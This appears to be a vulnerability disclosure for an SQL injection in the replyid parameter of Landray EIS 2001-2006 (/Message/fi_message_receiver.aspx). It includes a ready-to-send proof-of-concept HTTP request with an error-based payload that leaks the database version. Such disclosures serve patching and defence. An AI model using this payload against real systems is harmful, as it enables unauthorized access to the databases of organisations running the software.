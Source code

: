 
## PRODUCT

landray EIS

## Vendor of Product

https://www.landray.com.cn/

## VERSION

EIS 2001-2006

## Vulnerability Type

SQL injection

## Description
Vulnerabilities classified as fatal have been found in Landray EIS 2001 through 2006. This vulnerability affects the component API interface file/Message/fi_message_receiver.aspx? replyid parameter of replyid. Manipulation on the replyid parameter causes SQL injection



## POC：
```
GET /Message/fi_message_receiver.aspx?replyid=1%20and%201=@@version--+ HTTP/1.1
Host: 127.0.0.1
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.183 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: Lang=zh-cn; ASP.NET_SessionId=hrqq2u554a1zlurqqbuegun0
Connection: keep-alive
```
![fea5919b954e1f629e312262c0e178d2](https://github.com/user-attachments/assets/7542765c-17d1-4bac-8b5e-507cb816d127)



official website
https://www.landray.com.cn/



